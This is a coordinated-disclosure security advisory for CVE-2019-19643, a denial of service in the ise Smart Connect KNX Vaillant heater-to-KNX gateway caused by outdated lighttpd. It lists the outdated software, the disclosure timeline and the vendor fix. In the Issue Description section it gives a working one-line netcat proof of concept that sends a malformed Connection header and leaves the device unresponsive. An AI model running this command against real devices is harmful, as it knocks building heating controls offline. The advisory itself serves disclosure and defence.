 ```yaml
---
layout: post
title:  "CVE-2019-19643 ise smart connect KNX Vaillant 1.2.839 Denial of Service"
date:   2020-08-12 21:10:00 MEST
author: 'psytester'
---
```


# Overview

- CVE: CVE-2019-19643
- Author: psytester
- Title: ise smart connect KNX Vaillant 1.2.839 Denial of Service
- Vulnerability Type: CWE-400 Uncontrolled Resource Consumption
-	CVSSv3 Base Score: 7.5
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H
- Publishing Date: 12.08.2020
- Updated: --
- Vendor: ise Individuelle Software und Elektronik GmbH
- Product: ise Smart Connect KNX Vaillant
- Vendor contacted: 26.11.2019
- Vendor confirmation: 05.12.2019 with possible release date mid of 2020
- Vendor patch: 2.0.607 since 10.08.2020
- Vendor Reference: --
- Affected Firmware version: 1.2.839 tested


# Background

Product overview on [vendor's website](https://www.ise.de/en/products/ise_smart_connect_KNX_Vaillant).<br>
This device connects a Vaillant heater to KNX building automation and has a TCP/IP stack for its configuration.


# Issue Description

The analysis of the underlying operating system of the ise smart connect KNX Vaillant revealed that the BusyBox version v1.27.2 from 2017 with a Buildroot 2012.11.1 is installed as embedded Linux and that other outdated software packages are also used.

Just to name a few:
```
Buildroot: 2012.11.1
BusyBox: v1.27.2 from August 2017
dropbear: 2012.55
OpenSSL: 1.0.1c from May 2012
lighttpd: 1.4.31
....
```

After a search for already known CVE entries, the lighttpd process proved to be susceptible because of [CVE-2012-5533](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2012-5533=CVE-2012-5533).<br>

This vulnerability can be exploited by unauthenticated attackers with access to the web interface:
~~~shell
echo -ne "GET / HTTP/1.1\r\nHost: 1.2.3.4\r\nConnection: TC,,Keep-Alive\r\n\r\n" | nc 1.2.3.4 80
~~~
After that the lighttpd is permanently in 99% CPU load and the ise smart connect KNX Vaillant does not react anymore because the resources are used up and we have a Denial of Service:
```
PID  PPID USER     STAT   VSZ %VSZ %CPU COMMAND
  321     1 root     R     5548   2%  99% /usr/sbin/lighttpd -f /etc/lighttpd/lighttpd.conf
```
Just a restart of lighttpd process seems to be not enough to fix the overload condition, a reboot is required.

There might be much more vulnerabilities, as written in my German [blog post](https://psytester.github.io/embedded_Linux_Busybox_Buildroot/) about outdated embedded Linux Busybox/Buildroot installations.

# CVE

[CVE-2019-19643](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19643)

# CVSSv3 Base Score

CVSSv3 Base Score: 7.5

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:N/A:H

# lighttpd fix in new ise smart connect KNX Vaillant version 2.0.607
Base software is partly updated now with
```
Buildroot: 2018.02
BusyBox: v1.27.2 still from from August 2017
dropbear: 2017.75
OpenSSL: 1.0.2n from Dec 2017
nginx: 1.12.2 is used instead of lighttpd
```


# Credit
All researchers.<br>
[cvedetails](https://www.cvedetails.com/) for scanning and preparing all CVEs, separated by vendor and product.<br>
me, but I simply scanned known CVEs to use them.


# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2020 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
